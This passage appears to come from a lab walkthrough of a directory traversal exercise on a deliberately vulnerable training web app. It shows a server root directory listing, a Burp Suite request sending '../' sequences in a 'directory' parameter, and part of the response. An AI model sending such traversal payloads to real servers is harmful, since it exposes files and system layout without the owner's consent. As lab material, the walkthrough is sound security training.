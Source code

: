 ```http
<div id="main">
    
    <h1>Directory Traversal - Directories</h1>

    <a href="..//lib" target="_blank">lib</a><br /><a href="..//srv" target="_blank">srv</a><br /><a href="..//media" target="_blank">media</a><br /><a href="..//tmp" target="_blank">tmp</a><br /><a href="..//app" target="_blank">app</a><br /><a href="..//usr" target="_blank">usr</a><br /><a href="..//start-apache2.sh" target="_blank">start-apache2.sh</a><br /><a href="..//lib64" target="_blank">lib64</a><br /><a href="..//var" target="_blank">var</a><br /><a href="..//sbin" target="_blank">sbin</a><br /><a href="..//run.sh" target="_blank">run.sh</a><br /><a href="..//create_mysql_admin_user.sh" target="_blank">create_mysql_admin_user.sh</a><br /><a href="..//home" target="_blank">home</a><br /><a href="..//.dockerenv" target="_blank">.dockerenv</a><br /><a href="..//proc" target="_blank">proc</a><br /><a href="..//run" target="_blank">run</a><br /><a href="..//opt" target="_blank">opt</a><br /><a href="..//bin" target="_blank">bin</a><br /><a href="..//sys" target="_blank">sys</a><br /><a href="..//root" target="_blank">root</a><br /><a href="..//start-mysqld.sh" target="_blank">start-mysqld.sh</a><br /><a href="..//dev" target="_blank">dev</a><br /><a href="..//boot" target="_blank">boot</a><br /><a href="..//etc" target="_blank">etc</a><br /><a href="..//mnt" target="_blank">mnt</a><br /><a href="..//dmp.sql" target="_blank">dmp.sql</a><br /><a href="..//mysql-setup.sh" target="_blank">mysql-setup.sh</a><br />

</div>
    
[...]
```

`burpsuite` > `Repeater`

`HTTP Request`:
```http
GET /directory_traversal_2.php?directory=../../../../../../var/www/html/📌 HTTP/1.1
Host: 192.140.162.3
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=o78ej90h8cj91g69nkbm3km0l5; security_level=0
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```
`HTTP Response`:
```http
HTTP/1.1 200 OK
Date: Thu, 28 Nov 2024 17:12:29 GMT
Server: Apache/2.4.7 (Ubuntu)
X-Powered-By: PHP/5.5.9-1ubuntu4.25
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 33252
Connection: close
Content-Type: text/html

<!DOCTYPE html>
<html>
    
[...]

<div id="main">
    
    <h1>Directory Traversal - Directories</h1>

```
